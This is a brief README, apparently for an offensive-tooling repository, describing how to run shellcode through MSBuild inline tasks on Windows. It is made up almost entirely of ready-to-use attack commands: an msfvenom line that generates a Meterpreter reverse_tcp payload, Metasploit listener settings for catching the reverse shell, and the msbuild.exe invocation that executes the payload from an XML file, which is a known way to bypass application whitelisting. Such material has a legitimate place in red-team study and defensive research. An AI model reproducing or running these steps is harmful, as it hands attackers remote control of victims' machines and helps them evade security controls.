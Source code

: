 # msbuild-inline-task


## Usage:

### X64 shellcode 

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f csharp`

### Listen Port

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
```

### change shellcode in xml file (Example："executes x64 shellcode.xml")

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe shellcode_x64.xml`


## tips

```
use windows/exec
set CMD calc.exe
set EXITFUNC thread
generate -f csharp
```

Author: Casey Smith, Twitter: @subTee

License: BSD 3-Clause

More details:

https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/
